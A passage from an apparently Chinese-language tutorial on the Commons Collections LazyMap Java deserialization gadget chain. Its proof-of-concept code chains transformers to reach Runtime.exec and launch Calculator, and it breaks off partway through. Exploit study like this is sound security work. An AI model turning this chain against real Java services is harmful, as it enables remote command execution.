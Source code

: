<img src="./images/12.png" alt="">

> 这里`AnnotationInvocationHandler`类的`invoke()`方法可以触发`this.memberValues`来调用`get`方法，从而触发`LazyMap#get`

<img src="./images/13.png" alt="">

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsLazyMap {

    public static void main(String[] ars) throws ClassNotFoundException ,InstantiationException, IllegalAccessException, InvocationTargetException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

```